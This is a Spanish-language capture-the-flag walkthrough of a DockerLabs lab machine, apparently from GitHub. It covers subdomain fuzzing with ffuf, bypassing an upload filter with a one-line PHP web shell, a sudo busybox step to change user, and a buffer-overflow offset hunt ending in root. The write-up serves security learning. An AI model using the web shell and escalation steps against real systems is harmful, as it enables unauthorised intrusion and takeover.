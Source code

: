 nmap: 80

![image](https://github.com/user-attachments/assets/ff3cd078-fc1e-459c-8639-086836758977)

entramos a la pagina y no estaba encontrando nada y viendo el apache2 vi esto:

![image](https://github.com/user-attachments/assets/815b9f3b-7096-4316-816c-ec053989f3d7)

encontré que podemos agregarlo como .dl, si entramos veremos la misma pagina, intente con gobuster otra vez pero no me dio nada asi que lanzamos un fuzzing 

      ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.5eek3r.dl" -fs 10705

![image](https://github.com/user-attachments/assets/0ea7d491-d1d2-4b82-abbe-d8a190225222)

obtenemos un "crosswords", como es subdominio lo añadimos al host

![image](https://github.com/user-attachments/assets/7857eb8e-95e8-4700-a735-8f632a5578bb)

y obtenemos

![image](https://github.com/user-attachments/assets/0b6ce348-1d7c-4119-979d-682891662c06)

si ingresamos solo lo codifica. vamos al código fuente  

![image](https://github.com/user-attachments/assets/355c76f4-cdb2-41ca-aede-4059fa21d72a)

capturo con burpsuite pero no encuentro nada, o sea las solicitudes me dan las mismas que la web en si, así que seguimos buscando

lo que podríamos intentar como ya encontramos un subdominio, buscar otro subdominio 

     ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.crosswords.5eek3r.dl" -fs 10705 
     
y dimos que tenemos un admin

![image](https://github.com/user-attachments/assets/4481fc1b-b557-4923-93de-0bfd13b1a1d5)

lo agregamos y vemos que hay una subida de archivos

![image](https://github.com/user-attachments/assets/50a7e2f4-5984-4e57-bf52-e5faf10a417b)

pero al intentar subir archivos me aparece que no permite .py, asi que probamos otros y dimos que funciona con phtml

      <?php
       system($_GET['cmd']);
       ?>


![image](https://github.com/user-attachments/assets/1e1e1292-d36a-4143-8a7f-27eff711345a)

ahora en la URL colocamos el archivo

no funciono así que probamos algo mas directo y con otra extensión

![image](https://github.com/user-attachments/assets/8dc8857f-00ec-4df7-bf5d-0522def667d1)

![image](https://github.com/user-attachments/assets/72c9d0d7-d2dd-4370-a25f-3c703bc7edcb)

obtenemos conexión, pero antes de lanzar la conexión tenemos que lanzarla desde 
> crosswords.5eek3r.dl/shell.phar

dentro veremos como "escalar"

![image](https://github.com/user-attachments/assets/64c14cb6-2102-4e82-a2de-50799e4b5e55)

buscamos en https://gtfobins.github.io/gtfobins/busybox/#sudo
nos da el comando de sudo 

     sudo busybox sh

lo modificamos 

     sudo -u astu busybox sh

![image](https://github.com/user-attachments/assets/1ae675e9-7aea-4ba1-947f-bfafb1cd6ae9)

veremos esto con el usuario astu

![image](https://github.com/user-attachments/assets/0ac9de2d-34c1-486b-b302-686578aeeb13)

probamos si se puede hacer un ataque de desbordamiento

![image](https://github.com/user-attachments/assets/b304c786-7db1-437b-949c-16aa396b030b)

vemos que se puede, pero como no podemos ver el código por el formato lo pasamos a ghidra, nos pasamos por medio de un servidor el bs64 y veremos algo importante

    printf("Ejecutando /bin/sh");
    setuid(0);
    system("/bin/sh");
    return;

como se ve esta llamando a root por el setuid(0)
creamos como un "código" por decir así para el desbordamiento

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400


![image](https://github.com/user-attachments/assets/7e67d0b6-0b2a-4e26-9bf8-65b8aaa322c9)

veremos que nos da un valor 0x00000000004013d8
y si colocamos ret nos dará el valor: 0x6341356341346341

obtenemos esto el valor 72 

![[gdb2.png]]

lo que es el offset que se buscaba poder un exploit. hacemos el exploit

![[dockerlabs/medio/seeker/exploit.png]]

con los valores que obtuvimos, lanzamos

![[dockerlabs/medio/seeker/root.png]]

y somos root!
